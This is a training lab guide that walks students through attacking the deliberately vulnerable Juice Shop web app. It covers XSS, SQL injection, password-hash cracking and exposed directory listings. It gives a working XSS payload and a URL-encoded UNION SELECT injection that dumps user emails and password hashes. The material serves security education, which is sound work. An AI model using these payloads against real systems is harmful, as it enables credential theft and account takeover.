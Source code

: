 Lab 3 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized directory listing.

Task – Demonstrate a cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Click on the magnifying glass in the top right of the page to expose a search field and enter the following in the field and hit enter:

``<iframe src="javascript:alert(`pwned`)">``

You should see the following page load with a popup window

    .. image:: /_static/class9/juice_shop_xss.png


Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Copy and paste the following URI after the FQDN of the Juice Shop:

``/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--``

The location bar should look something like this:

``https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--``

The result should be a list of all the users in the database including their hashed passwords.

    .. image:: /_static/class9/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


    .. image:: /_static/class9/juice_shop_crackstation.png


Task - Demonstrate an unauthorized directory listing
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /ftp to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_ftp.png

Navigate to /encryptionkeys to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_encryptionkeys.png


